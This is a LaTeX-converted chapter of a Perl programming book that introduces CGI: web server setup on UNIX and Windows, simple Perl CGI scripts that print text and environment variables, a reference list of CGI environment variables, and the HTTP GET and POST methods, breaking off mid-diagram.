% LaTeX/AMS-LaTeX

\documentclass[a4paper,11pt]{book}

%%% remove comment delimiter ('%') and specify encoding parameter if required,
%%% see TeX documentation for additional info (cp1252-Western,cp1251-Cyrillic)
%\usepackage[cp1252]{inputenc}

%%% remove comment delimiter ('%') and select language if required
%\usepackage[english,spanish]{babel}

\usepackage{amssymb}
\usepackage{amsmath}
\usepackage[dvips]{graphicx}
%%% remove comment delimiter ('%') and specify parameters if required
%\usepackage[dvips]{graphics}

\begin{document}

%%% remove comment delimiter ('%') and select language if required
%\selectlanguage{spanish} 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=18.1mm, height=22.3mm, viewport=3mm 4mm 205mm 292mm]{image15.ps}Introduction to CGI

\noindent 

\noindent 

\noindent 

\noindent 

\noindent The Common Gateway Interface (CGI) is a method used by web servers to run external programs

\noindent (known as CGI scripts), most often to generate web content dynamically. Whenever a web page queries

\noindent a database, or a user submits a form, a CGI script is usually called upon to do the work.

\noindent 

\noindent CGI is simply a specification, which defines a standard way for web servers to run CGI scripts and for those programs to send their results back to the server. The job of the CGI script is to read information that the browser has sent (via the server) and to generate some form of valid response usually (but not always) visible content. Once it has completed its task, the CGI script finishes and exits.

\noindent 

\noindent Perl is a very popular language for CGI scripting thanks to its unrivalled text-handling abilities, easy scripting, and relative speed. It is probably true to say that a large part of Perl's current popularity is due

\noindent to its success in dynamic web page generation.

\noindent 

\noindent In  this  chapter,  we're going  look  at  how  CGI  works  by  writing  some  simple  CGI  scripts  and  using

\noindent the CGI.pm module to  simplify  most  of  the  hard  work.  We'll also  discuss  security  issues  as  they relate

\noindent to  CGI.

\noindent 

\noindent 

\noindent How Do I Get It To Work?

\noindent 

\noindent Before we  get started, we must make sure that our system is set up properly. Follow these instructions, and in no time you'll be ready to enter the exciting world of Perl CGI.

\noindent 

\noindent Setting Up CGI on UNIX

\noindent 

\noindent If you're running Perl on UNIX, you'll need to make sure you have a web sever installed on your system before you can run the CGI examples in this book. Luckily, many UNIX systems (notably, virtually all Linux distributions and open source BSDs) come with one pre-installed, the extremely popular Apache web server (for more information on the subject, read Professional Appache, 1999,

\noindent Wrox Books \textit{1-86100-3-02-1}). It may even be running on your machine without your being aware.

\noindent 

\noindent Let's briefly make sure that we're running an Apache server and that it's configured to use CGI scripts.

\noindent  

\noindent  

\noindent  

\noindent  

\noindent 

\noindent 

\noindent \textit{Apache}

\noindent If you're not sure if you have Apache and you have a Linux system, which uses a package management system such as RPM, then you should use its 'query' or 'verify' function to see if the server is installed. Under RPM, for example, if you don't see:

\noindent 

\noindent $>$ \textbf{rpm -q apache}

\noindent package apache is not installed

\noindent 

\noindent then you do have Apache already.

\noindent 

\noindent If it's not already installed, check the CDs your distribution came on or your distributor's website. Then you should install the package using the package manager, for example:

\noindent 

\noindent $>$ \textbf{rpm -Uvh apache-1.3.12-i386.rpm}

\noindent apache \#\#\#\#\#\#\#\#\#\#\#\#\#\#

\noindent $>$

\noindent 

\noindent Alternatively, if you don't have a package manager, or you prefer to do things the old-fashioned way, then you can install Apache quite easily from source:

\noindent 

\noindent $>$ \textbf{tar -zxf apache\_1.3.12.tar.gz}

\noindent $>$ c\textbf{d apache\_1.3.12}

\noindent $>$ \textbf{./configure}

\noindent $>$ \textbf{make}

\noindent $>$ \textbf{make install}

\noindent 

\noindent There's a huge array of options you can specify to the configure script, but the defaults will suit us fine for our purposes. If you plan to do much more with Apache, you'd be advised to look into the installation options. But for now, we're just building a quick test server.

\noindent 

\noindent \textit{Starting and Stopping Apache}

\noindent If you installed Apache from source, it will have been installed in /usr/local/apache. If you used a binary package, it could be almost anywhere. If you can't find a likely looking directory, try to find the Apache control tool, apachectl.

\noindent 

\noindent $>$ \textbf{locate apachectl}

\noindent /usr/sbin/apachectl

\noindent /usr/man/man8/apachectl.8

\noindent $>$

\noindent 

\noindent Ignore  the man page file --  it's  the  apachectl program  we  want.  Use  this  path,  or  type  the following command:

\noindent 

\noindent $>$ \textbf{/usr/local/apache/bin/apachectl start}

\noindent /usr/local/apache/bin/apachectl start: httpd started

\noindent $>$

\noindent 

\noindent \textit{A hint for using locate: You may need to update the system's search database before locate finds the file you're looking for. Try using a command such as updatedb. See the locate manpage for details.}

\noindent 

\noindent 

\noindent Now we can stop Apache using the same tool:

\noindent 

\noindent $>$ \textbf{/usr/local/apache/bin/apachectl stop}

\noindent /usr/local/apache/bin/apachectl stop: httpd stopped

\noindent $>$

\noindent 

\noindent Then to restart the server:

\noindent 

\noindent $>$ \textbf{/usr/local/apache/bin/apachectl restart}

\noindent /usr/local/apache/bin/apachectl start: httpd restarted

\noindent $>$

\noindent 

\noindent Once we're sure Apache's up and running (you can verify by typing ps ax \textbar  grep httpd -- there should be several instances of the httpd program running), we can use it to serve web pages and run CGI programs.

\noindent 

\noindent \textit{DocumentRoot and cgi-bin}

\noindent Try and find the file httpd.conf --  this  contains  all  of  Apache's  configuration  directives,  which

\noindent tell  it  how  to  respond to  web requests.  It  is usually found  in  /usr/local/apache/conf/.  You  can also  try using the locate command.

\noindent 

\noindent Look down the file for a line beginning with the command DocumentRoot. This identifies the directory from which Apache serves HTML pages -- typically /usr/local/apache/htdocs.

\noindent 

\noindent Further down, there should be a line beginning ScriptAlias. The default line should look like:

\noindent 

\noindent ScriptAlias /cgi-bin/ "/usr/local/apache/cgi-bin/"

\noindent 

\noindent This tells Apache that when it receives a request for a page in the location /cgi-bin/, say a request like

\noindent http://www.myserver.com/cgi-bin/hello.plx, rather than serving a document called hello.plx from

\noindent /usr/local/apache/htdocs/cgi-bin/, it should instead go to the /usr/local/apache/cgi- bin/ directory, and run hello.plx as a CGI script. The reason for keeping scripts out of the

\noindent document hierarchy is to avoid the risk of the source code to our scripts being made available by the

\noindent web server.

\noindent 

\noindent So, we should place our scripts in the directory named in the ScriptAlias command and our web pages in the directory named in the DocumentRoot command.

\noindent 

\noindent Setting up Perl CGI on Windows

\noindent 

\noindent In order to get our Perl scripts running under CGI on Windows, we need to configure a web server to recognize Perl files. Imagine the server receives a request for a file called contents.plx. It doesn't know that .plx files are special, so it simply sends back the contents of the file to the client that requested the file. This means the client gets a copy of the source code of our Perl program.

\noindent 

\noindent What we really want is for the  web  server  to  recognize  that  .plx files  need  to  be  run through

\noindent perl.exe it's  actually the  \textbf{output  }we  get  from  this  program  that  needs  to  be  sent back

\noindent to the client.

\noindent 

\noindent First, we need to install a web server if we haven't already got one.

\noindent 

\noindent 

\noindent \textit{Internet Information Server}

\noindent Microsoft's Internet Information Server (IIS) is the standard web server for Windows NT 4.0 Server and

\noindent Windows 2000. It's a production-grade web server capable of handling real site traffic, but it's also suitable for testing out web programs if you're running either of these operating systems on your development machine.

\noindent 

\noindent To install IIS, you need to go to the Add/Remove Programs control panel, and select Add/Remove Windows Components. Make sure that Internet Information Services is checked, and click OK. Note that you'll need access to your operating system installation disks.

\noindent 

\noindent \textit{ActivePerl}

\noindent If you installed ActivePerl on Windows NT 4.0 or 2000 and IIS was already installed, then you'll have been asked if you wanted to create an IIS Script mapping for Perl. What this means is that IIS will already interpret .plx files as Perl CGI programs and run them through Perl. Okay, you should have said yes -- but if you didn't (or if you've only installed IIS now), then all's not lost. You just need to re- run the ActivePerl installer, which will allow you to modify your Perl installation and select the IIS

\noindent script mapping.

\noindent 

\noindent \textit{Personal Web Server}

\noindent Microsoft's cut-down web server for Windows 95, 98, and NT 4.0 Workstation is Personal Web Server (PWS). PWS isn't actually terribly suitable for serving a full-scale web site, and the operating systems it runs on aren't intended for server deployment. It's perfectly adequate though, as a testbed and development platform.

\noindent 

\noindent \textit{Installing PWS}

\noindent You'll find PWS on your Windows installation CD in the add-ons directory. Run setup.exe to install the web server.

\noindent 

\noindent Unfortunately, Microsoft has deliberately made the PWS user-interface as idiot-proof as possible, and there are therefore no controls for setting up script mappings and associations. In order to get PWS to work with ActivePerl, we need to delve into the registry and add the script association for perl.

\noindent 

\noindent From the Start menu, select Run..., and type regedit. This runs the registry editor.

\noindent 

\noindent 

\noindent \textbf{Editing the Windows registry is potentially dangerous and could corrupt your system.}

\noindent \textbf{You should back up the registry using the Export Registry File... option from the}

\noindent \textbf{Registry menu before proceeding. You can then restore the old settings using the}

\noindent \textbf{corresponding Import Registry File... menu item.}

\noindent 

\noindent 

\noindent On the left-hand side is a tree hierarchy similar to that used by the Windows Explorer. You can expand

\noindent the folders on the left to navigate through the registry. In the registry, these folders are called \textbf{keys}.

\noindent 

\noindent You need to open up the HKEY\_LOCAL\_MACHINE/SYSTEM/CurrentControlSet/Services key. This contains the registry data relating to server programs such as PWS. The PWS settings belong in a key called W3SVC (which is short for World Wide Web Service). We need to find the PWS script map key, which is located in Parameters. The Script Map key will probably be empty.

\noindent 

\noindent 

\noindent Select \underbar{N}ew \textbar  \underbar{S}tring Value from the \underbar{E}dit dropdown menu, and a new entry will appear in the right-hand

\noindent pane, with the cursor waiting for the name of the value to be entered. Type in the file extension for Perl files '.plx'. Double-click on the string value to bring up a dialog box -- this allows you to set the value data. Enter the path to your perl.exe program, usually C:\textbackslash Perl\textbackslash bin\textbackslash perl.exe, and place the characters '\%s \%s' afterwards, so that the terms are separated by a space.

\noindent 

\noindent Now PWS is configured to recognize and run Perl CGI scripts. Now you just need to reboot your machine, and you're ready to continue.

\noindent 

\noindent \textit{Using Windows Web Servers}

\noindent By default, both IIS and PWS store all the files that make up your web site in C:\textbackslash Inetpub\textbackslash wwwroot. Let's make a test page in this directory. Open up Notepad and create the following file:

\noindent 

\noindent $<$html$>$

\noindent $<$head$>$

\noindent $<$title$>$test page$<$/title$>$

\noindent $<$/head$>$

\noindent $<$body$>$

\noindent $<$h1$>$Hello World!$<$/h1$>$

\noindent $<$/body$>$

\noindent $<$/html$>$

\noindent 

\noindent Feel free to let your HTML creativity flow if you like. Save it in C:\textbackslash Inetpub\textbackslash wwwroot as

\noindent default.htm.

\noindent 

\noindent Now,  start up the browser of  your  choice,  and  type  in  http://localhost/ to  the location  field.  You should see the web  page we just  made  appear.  If  you  get  an  error,  you  might  want  to  try http://127.0.0.1/ instead.

\noindent 

\noindent \textit{127.0.0.1 is a specially reserved internet address called the 'loopback' address. It always redirects requests back to the machine they originate on. localhost is a human friendly,}

\noindent \textit{shorthand name for the same address, but you may have trouble with it if you have certain network}

\noindent \textit{configurations.}

\noindent 

\noindent There's also a directory in C:\textbackslash Inetpub called Scripts. This directory is configured to allow the execution of CGI scripts, and you should put programs you want to test in here. For instance, to test a Perl CGI script called foo.plx, you'd save it as C:\textbackslash Inetpub\textbackslash Scripts\textbackslash foo.plx and then access http://localhost/scripts/foo.plx from your web browser.

\noindent 

\noindent 

\noindent Writing CGI Scripts

\noindent 

\noindent Now that we know how to get CGI working, let's write a simple CGI script.

\noindent 

\noindent Basic CGI

\noindent 

\noindent To begin with, we'll write simple CGI scripts that don't require any supporting libraries to work. Then we'll look at the ever-popular CGI.pm module, which comes with Perl and is the standard library for writing Perl CGI scripts.

\noindent 

\noindent 

\noindent \textit{Plain Text}

\noindent Our first example's going to keep things very simple -- its output will be plain text:

\noindent 

\noindent Try It Out : Our First CGI Script

\noindent Here's our simple CGI script to start the chapter with. It doesn't take any input and just prints out a friendly message:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#cgihello.plx

\noindent use strict;

\noindent use warnings;

\noindent 

\noindent print "Content-type: text/plain\textbackslash n\textbackslash n";

\noindent print "Hello CGI World!\textbackslash n";

\noindent print "You're calling from \$ENV\{REMOTE\_HOST\}\textbackslash n";

\noindent 

\noindent The output we get is the message:

\noindent 

\noindent Hello CGI World!

\noindent You're calling from 192.168.0.243

\noindent 

\noindent \textit{How It Works}

\noindent Here we set the content type and sent some regular text back to the server -- since the content type is text/plain, the browser does not attempt to interpret the result as HTML and just displays the message

\noindent as plain text. Even if we were to send HTML, the browser should still display it as plain text, complete with tags.

\noindent 

\noindent Each time a client (usually, but not always, a web browser) makes a request that involves the web server running a CGI script, the server starts the script, sending details of the request to the script's

\noindent environment. It then accepts the output of the script (a page of HTML, for instance) and passes it back

\noindent to the client.

\noindent 

\noindent A Perl CGI script is therefore no more than a Perl program that gets its input from the environment (in the form of the \%ENV hash) and sends its output to standard output. The fundamental job of a CGI

\noindent script is to return some kind of content that corresponds to the information it was given when it started. Frequently, this will be a page of HTML, but it can just as easily be an image or even an audio clip.

\noindent 

\noindent \textit{HTML Text}

\noindent Well, so far so good! Don't you find this a little boring though? There's so much more we can do if we put our minds to it. Let's try generating some HTML instead of plain text:

\noindent 

\noindent Try It Out : Generating HTML

\noindent This program takes the \%ENV hash, which contains all the defined environment variables, and prints its contents as an HTML table:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#ed.plx

\noindent use strict;

\noindent use warnings;

\noindent 

\noindent 

\noindent print "Content-type: text/html\textbackslash n\textbackslash n";

\noindent print "$<$html$>$$<$head$>$$<$title$>$Environment Dumper $<$/title$>$$<$/head$>$$<$body$>$";

\noindent print "$<$center$>$$<$table border=1$>$";

\noindent foreach (sort keys \%ENV) \{

\noindent print "$<$tr$>$$<$td$>$\$\_$<$/td$>$$<$td$>$\$ENV\{\$\_\}$<$/td$>$$<$/tr$>$"

\noindent \}

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=97.3mm, height=63.6mm, viewport=3mm 4mm 205mm 292mm]{image16.ps}print "$<$/table$>$$<$/center$>$$<$/body$>$$<$/html$>$";

\noindent 

\noindent Your results should look something like this:

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent \textit{How It Works}

\noindent As usual, we start off with our headers:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#ed.plx

\noindent use strict;

\noindent use warnings;

\noindent 

\noindent Nothing new  here,  so  let's  continue.  The  HTTP  protocol  requires  that  two  linefeeds  separate  the header (or  headers)  from any  actual  content,  so  a  CGI  script  that  generates  HTML  must first use something like this:

\noindent 

\noindent print "Content-type: text/html\textbackslash n\textbackslash n";

\noindent 

\noindent It's crucial that this is the first thing a CGI script sends. If anything other than a header is seen by the server, the result is unpredictable and likely to cause an error. One particularly common mistake is to print debug statements to standard output before the header has been sent.

\noindent 

\noindent Notice that in order for this example to work we have started by sending a text/html content type header to tell the browser that what follows is HTML. The content type is specified as a MIME type. MIME (short for Multipurpose Internet Mail Extension) was originally created to allow email messages

\noindent to contain content other than plain text. The MIME types have since found their way into almost all forms of Internet communication, describing everything from humble text files through to video clips.

\noindent 

\noindent 

\noindent A MIME type consists of a category and a specific type within the category, so the MIME type for

\noindent HTML documents is text/html, and the MIME type for plain ordinary text is text/plain. GIF

\noindent images use image/gif while JPEGs use image/jpeg. Moving on, the next line we come to is:

\noindent print "$<$html$>$$<$head$>$$<$title$>$Environment Dumper $<$/title$>$$<$/head$>$$<$body$>$";

\noindent 

\noindent I'm sure you can guess what this does. If this line is not included in your text, then your page title will be given a default name. Now we get to the interesting bit:

\noindent 

\noindent print "$<$center$>$$<$table border=1$>$";

\noindent foreach (sort keys \%ENV) \{

\noindent print "$<$tr$>$$<$td$>$\$\_$<$/td$>$$<$td$>$\$ENV\{\$\_\}$<$/td$>$$<$/tr$>$"

\noindent \}

\noindent print "$<$/table$>$$<$/center$>$$<$/body$>$$<$/html$>$";

\noindent 

\noindent Well, how do we explain our output? How does this section of code translate into the table of variables and values we got? Well, our CGI script gets passed to our server, and servers communicate with CGI scripts through their environment. When a normal Perl script is run from the command line, it inherits the environment of the command line, plus some additional variables that hold the values of the arguments that the script was given. These can be retrieved by the script with standard Perl variables

\noindent like \$0,  @ARGV, and \%ENV. In our case, we're exclusively printing out the \%ENV hash.

\noindent 

\noindent Similarly, when a web server calls a CGI script, it defines a whole collection of environment variables that describe the HTTP request. The variables can hold information on how it was made, who made it, the browser software, the browser's preferences for language and content type, and anything else the browser has told the web server (or that the web server has deduced independently).

\noindent 

\noindent Basically, when our script is run, it iterates over the contents of the \%ENV hash, puts the variables and their corresponding values into a nicely formatted table, and passes this table to the client browser, for

\noindent us to view as a web page.

\noindent 

\noindent The CGI Environment

\noindent 

\noindent We can use the \%ENV hash variable to retrieve the values of all of the variables in the environment individually. For example, to retrieve the Request method, we can write:

\noindent 

\noindent print \$ENV\{"REQUEST\_METHOD"\};

\noindent 

\noindent \textit{If you want to see this running for yourself, then just pop it into a .plx file. Add in the shebang line, tell the server what content type you are using, and of course use strict and use warnings at the top. Then just save it in your virtual directory and run it from your webpage.}

\noindent \textit{From now on, we shall only show you the results of full scripts and leave you to check that we're not}

\noindent \textit{cheating with any of the one-liners.}

\noindent 

\noindent Any headers sent by the client are converted into environment variables prefixed with HTTP\_. So, for example, the Referer header becomes the environment variable \$ENV\{'HTTP\_REFERER'\}. Here is a reasonably complete list of headers that a server may expect to receive:

\noindent 

\noindent 

\noindent \textbf{HEADER DESCRIPTION}

\noindent 

\noindent HTTP\_ACCEPT The list of MIME types a client can accept, for example, "image/gif, image/xxbitmap, image/jpeg, image/pjpeg, image/png, */*".

\noindent 

\noindent HTTP\_ACCEPT\_CHARSET A list of character sets that the client can accept, for example, "iso88591,*,utf8".

\noindent 

\noindent HTTP\_ACCEPT\_ENCODING A list of character coding types the client can accept, for example, "gzip".

\noindent 

\noindent HTTP\_ACCEPT\_LANGUAGE The languages which the client can accept, for example, "en".

\noindent 

\noindent HTTP\_AUTHORIZATION The authorization data of an HTTP authentication, if any.

\noindent See AUTH\_TYPE REMOTE\_USER above.

\noindent 

\noindent HTTP\_CACHE\_CONTROL Set if a request can be cached by the server.

\noindent 

\noindent HTTP\_CONNECTION The connection type, for example, "Keep-alive" if the connection is desired to be persistent.

\noindent 

\noindent HTTP\_COOKIE The cookie or cookies transmitted by the client. The third-

\noindent party CGI::Cookie module is useful for processing this variable to extract the cookies it contains.

\noindent 

\noindent HTTP\_HOST The name of the server requested by the client (this can be useful on a system with many virtual hosts in operation).

\noindent 

\noindent HTTP\_REFERER The URL of the page from which this page was accessed.

\noindent 

\noindent HTTP\_USER\_AGENT The user agent (client or browser) that send the request, for example, "Mozilla/4.72 [en] (X11; I; Linux 2.2.9 i686)". Note that user agents often pretend to be other agents to work with web sites that treat particular agents differently.

\noindent 

\noindent HTTP\_VIA Information about which proxy cache or caches were used for making this request.

\noindent 

\noindent 

\noindent A client is free to send any headers it likes (including no headers at all), and further revisions of the

\noindent HTTP protocol may add more variables to this list. The server may also set its own variables, especially

\noindent if additional functionality has been enabled.

\noindent 

\noindent We've seen from running ed.plx that we find a lot more variables than the ones in the list above when we look in the \%ENV hash. A lot of these variables can appear to have similar meanings and values,

\noindent which can cause confusion if they unexpectedly don't. Although there are often good reasons for using these variables, it's usually better to stick to the ones that we list here -- at least until we come across a real need to make use of them.

\noindent 

\noindent 

\noindent The web server also defines some variables to describe itself (the server's domain name, the version of

\noindent the web server software, and so on). This can add up to a lot of variables, which our script receives in

\noindent \%ENV when it starts. Fortunately, most CGI scripts only need to use one or two to carry out their tasks. The most important and commonly used are:

\noindent 

\noindent 

\noindent \textbf{VARIABLE DESCRIPTION}

\noindent 

\noindent REQUEST\_METHOD How the script was called (GET or POST).

\noindent 

\noindent PATH\_INFO The relative path of the requested resource. PATH\_TRANSLATED The absolute path of the requested resource. QUERY\_STRING Additional supplied parameters, if any.

\noindent SCRIPT\_NAME The name the script was called with.

\noindent 

\noindent 

\noindent What we've done so far is to print out a complete list of the standard CGI variables and the values they

\noindent contain. We've seen a list of HTTP\_ appended variables, as well as variables containing information about the server itself.

\noindent 

\noindent We've also seen how to retrieve an individual environment variable. It's not that important you

\noindent understand what these all do -- we can usually ignore most of them. Below is a general list of some of the more important ones, with a short explanation of what each one does:

\noindent 

\noindent 

\noindent \textbf{ENVIRONMENT}

\noindent \textbf{VARIABLES}

\noindent \textbf{DESCRIPTION}

\noindent 

\noindent DOCUMENT\_ROOT The path of the root of the HTML document tree, for example, /home/sites/myserver.com/html/.

\noindent 

\noindent GATEWAY\_INTERFACE The revision of the CGI specification to which the server complies, for example, CGI/1.1.

\noindent SERVER\_NAME The server's hostname, for example, www.myserver.com. SERVER\_SOFTWARE The server software's name,for example, Apache/1.3.11 (Unix). AUTH\_TYPE The authorization type used to authenticate this URL, for

\noindent example, Basic, if authentication is being used. See also

\noindent REMOTE\_USER.

\noindent 

\noindent CONTENT\_LENGTH For HTTP requests with attached information such as POST

\noindent or PUT, this stores the length of the content sent by the client in bytes.

\noindent 

\noindent CONTENT\_TYPE For HTTP requests with attached information such as POST

\noindent or PUT, this contains the type of the content sent by the client -- for example, text/html.

\noindent 

\noindent 

\noindent \textbf{ENVIRONMENT}

\noindent \textbf{VARIABLES}

\noindent \textbf{DESCRIPTION}

\noindent 

\noindent PATH The search path for remotely executable programs, inherited from the operating system. A well-written CGI script should generally override this value. See the section on taint checking for more details.

\noindent 

\noindent PATH\_INFO The extra path information given by the client. This is set when a script is called by a pathname that matches the script but extends beyond it. The extra part of the URL is chopped off to become the value of PATH\_INFO.

\noindent 

\noindent PATH\_TRANSLATED The value of PATH\_INFO converted into a physical file location.

\noindent 

\noindent QUERY\_STRING The information that follows the ? in a URL that references the script, for example, first=John\&last=Smith.

\noindent 

\noindent REMOTE\_ADDR The IP address of the remote host.

\noindent 

\noindent REMOTE\_HOST The hostname of the remote host. This may be the same as

\noindent REMOTE\_ADDR if the server is not doing name lookups.

\noindent 

\noindent REMOTE\_IDENT The remote user name retreived from the ident protocol. This

\noindent is usually unset, as servers rarely perform this lookup.

\noindent 

\noindent REMOTE\_PORT The port number of the network connection on the client side.

\noindent See also SERVER\_PORT.

\noindent 

\noindent REMOTE\_USER The user name that was authenticated by the server, if authentication is being used.

\noindent 

\noindent REQUEST\_METHOD How the script was called (GET, PUT, POST...).

\noindent 

\noindent SCRIPT\_NAME The virtual path to the script, used for self-referencing URLs, for example, /perl/askname.plx.

\noindent 

\noindent SCRIPT\_FILENAME The absolute path to the script, for example,

\noindent /home/sites/myserver.com/scripts/askname.plx.

\noindent 

\noindent SERVER\_ADMIN The email address of the web server administrator, for example, webmaster@myserver.com.

\noindent 

\noindent SERVER\_PORT The port number to which the request was sent, for example, 80.

\noindent 

\noindent SERVER\_PROTOCOL The name and revision of the protocol used to make the request, for example, HTTP/1.1.

\noindent 

\noindent 

\noindent HTTP Commands

\noindent 

\noindent Web clients and web servers communicate with each other using the Hypertext Transfer Protocol, or

\noindent HTTP for short. When a client accesses a server, the server makes an HTTP request, containing an

\noindent HTTP command (known in HTTP parlance as a \textbf{method}) and an address or Universal Resource Locator (URL). Usually an HTTP protocol version is also present, but we don't usually need to worry about it in CGI scripts.

\noindent 

\noindent Although there are many different commands defined in the HTTP protocol, the majority of web communications consist of just three -- the HEAD method, the GET method, and the POST method.

\noindent 

\noindent ? The HEAD method tells the server not to return any actual data, just the basic HTTP response. It is used to test whether or not a request is valid without actually transmitting the result.

\noindent ? The GET method is the common way for clients to request web pages and is the method used whenever a user clicks on a link in a browser window. HTML forms may create a GET

\noindent request when their submit buttons are pressed, but they can also choose to use\dots 

\noindent ? the POST method which, unlike GET, is able to send large amounts of data to the server. This

\noindent is ideal for forms that contain large fields.

\noindent 

\noindent GET and POST are the methods that are most often responsible for running our CGI script. Let's take a look at them before seeing how to handle them in our code.

\noindent 

\noindent \textit{The GET Method}

\noindent The GET method is the standard way for clients to retrieve information from a server; the CGI script retrieves its information from the address (or URL) that the client asked for. Usually, this is in the form

\noindent of a query string -- a question mark followed by a sequence of parameters, appended to the end of the script name. For example, to pass a first and last name to a CGI script, a client might ask for the following URL:

\noindent 

\noindent http://www.myserver.com/perl/askname.plx?first=John\&last=Smith

\noindent 

\noindent This tells the server to access a script called askname.plx in the directory /perl. If the web server is properly set up, /perl should point to a real directory somewhere on the computer. This is where we

\noindent can put our CGI scripts.

\noindent 

\noindent 

\noindent 

\noindent 1    Client requests a page and sends

\noindent parameters in the form of a URL.

\noindent 2     The server accesses

\noindent the CGI script.

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 3    CGI script

